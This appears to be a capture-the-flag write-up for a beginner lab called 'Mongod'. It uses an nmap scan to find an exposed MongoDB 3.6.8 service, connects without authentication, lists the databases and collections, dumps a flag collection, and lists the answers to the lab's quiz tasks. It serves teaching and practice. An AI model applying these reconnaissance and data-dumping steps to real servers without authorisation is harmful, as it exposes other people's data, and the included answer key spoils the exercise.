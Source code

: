 # Mongod      

![Mongod](mongodlogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -p- -sV {target ip} -v
```

![nmap](mongodnmap.png)

Port 22/tcp is open. Service is `ssh`, version `OpenSSH 8.2p1` (Ubuntu 4ubuntu0.5) on `Ubuntu Linux` (protocol 2.0).

Port 27017/tcp is open. Service is `mongodb`, version `MongoDB 3.6.8`. 

### MongoDB

First, let's try with `mongodb` as it's mentioned in challenge name.

Type:

```
mongo {target ip}
```

![mongo](mongomongo.png)

As we are in, we want to see the databases present.

Type:

```
show dbs
```

![mongo](mongomongo2.png)

Then:

```
use sensitive_information
```

![mongo](mongomongo3.png)

Next:

```
show collections
```

![mongo](mongomongo4.png)

### Get the flag

Flag is there. Now paste:

```
db.flag.find()
```
![flag](mongoflag.png)

or you can paste:

```
db.flag.find().pretty()
```

to have an even nicer output.

![flag](mongoflag2.png)

You found the flag. Cheers.

### Paste the flag

![pwned](mongodpwned.png)

## Answers

### Task-1: How many TCP ports are open on the machine?

2

### Task-2: Which service is running on port 27017 of the remote host?

MongoDB 3.6.8

### Task-3: What type of database is MongoDB? (Choose: SQL or NoSQL)

NoSQL

### Task-4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

mongo

### Task-5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

show dbs

### Task-6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

show collections

### Task-7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

db.flag.find().pretty()

### Submit root flag

Niceeeee.